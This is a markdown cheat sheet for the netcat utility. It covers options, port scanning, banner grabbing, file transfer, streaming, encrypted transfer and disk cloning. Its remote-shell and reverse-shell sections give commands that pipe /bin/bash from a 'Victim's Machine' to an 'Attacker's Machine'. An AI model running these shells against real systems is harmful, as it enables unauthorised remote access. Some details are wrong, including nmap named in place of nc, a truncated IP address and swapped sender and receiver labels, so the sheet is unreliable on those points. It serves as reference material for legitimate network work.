

# NetCat (NC)

## USAGE

```sh
$ nc [options] [host] [port]
```

## DESCRIPTION

The nc (or netcat) utility is used for almost anything involving TCP, UDP, or UNIX sockets. It can establish TCP connections, send UDP ackets, listen on arbitrary TCP and UDP ports, perform port scanning, and handle IPv4 and IPv6.

## Command Options

| Options | Description                                             |
| ------- | ------------------------------------------------------- |
| -4      | Forces nc to use IPv4 addresses only                    |
| -6      | Forces nc to use IPv6 addresses only                    |
| -l      | Instruct netcat to listen for incoming connections      |
| -v      | Provide verbose output                                  |
| -n      | Disable DNS lookup on ip addresses and hostnames        |
| -p      | Specifies the source port netcat should use             |
| -w      | Specifies the timeout value                             |
| -u      | Use UDP instead of the default option of TCP            |
| -k      | Forces netcat to continue listening after disconnection |
| -z      | Instructs nmap to scan for listening daemons            |
| -h      | Show nmap help                                          |
| -x      | Use nmap with a prox                                    |

## Port Scanning & Banner Grabbing

| Command                          | Description                        |
| -------------------------------- | ---------------------------------- |
| `nc -zvn 192.168.59.1 1-100`     | Scan for ports between 1 and 100   |
| `nc -zvn 192.168.59.1 80 22 443` | Scan port 80, 22 and 443           |
| `nc -zvn 192.168.59.1 80`        | Scan only port 80                  |
| `nc -zvn sysexplore.com 80`      | Scan for port 80 on sysexplore.com |
| `nc sysxplore.com 80`            | Grab sysxplore.com banner          |

## REMOTE SHELL

### Server (192.168.59.3)

```sh
nc -nvlp 8888 -e /bin/bash
```

### Client

```sh
nc -nv 192.168.59.3 8888
```

## REVERSE SHELL

### Attacker's Machine (192.168.59.3)

```sh
nc -nlvp 8888
```

### Victim's Machine

```sh
nc 192.168.59.3 8888 -v -e /bin/bash
```

## DOWNLOADING

### Sending Side (192.168.59.3)

```sh
nc -lvp 8888 < data.txt
```

### Receiving Side

```sh
nc -nv 192.168.59.3 8888 > data.txt
```

## UPLOADING

### Receiving (192.168.59.3)

```sh
nc -lvp 8888 > data.txt
```

### Sending Side

```sh
nc 192.168.59.3 8888 < data.txt
```

## CHAT APP

### Server (192.168.59.3)

```sh
nc -lvp 8888
```

### Client

```sh
nc 192.168.59.3 8888
```

## VIDEO STREAMING

### Server (192.168.59.3)

```sh
cat video.avi | nc -nlvp 8888
```

### Client

```sh
nc 192.168.59 8888 | mplayer -vo x11 -cache 3000 -
```

## COMPRESS AND TRANSFER

### Sending Side

```sh
tar cfp - /backups | compress -c | nc 192.168.59.54 8888
```

### Receiving Side (192.168.59.54)

```sh
nc -l -p 8888 | uncompress -c | tar xvfp -
```

> This is very useful when you want to transfer directories

## ENCRYPT AND TRANSFER

### Sending Side (192.168.59.3)

```sh
nc -l -p 8888 | openssl enc -d -des3 -pass pass:password > creds.txt
```

### Recelving Side

```sh
openssl enc -des3 -pass pass:password | nc 192.168.59.3 8888
```

> File transfers using netcat are not encrypted by default, anyone on the network can grab what you are sending, so it is important to encrypt data before sending.

## CLONING LINUX DISK DRIVE

### Sending Side (192.168.59.3)

```sh
dd if=/dev/sdb | nc -l -p 8888
```

### Receiving Side

```sh
nc -n 192.168.59.3 8888 | dd of=/dev/sdb
```

> This is very handy when you want to clone a Linux system.

## Check the Port Connection

```sh
nc -z -v -u -l <remote-ip-addr> <remote-port-number>
```

## Check the Connection Between Two Machines

```sh
nc  <ip> <port>
```

### Image of above commands

??? Toggle menu

    
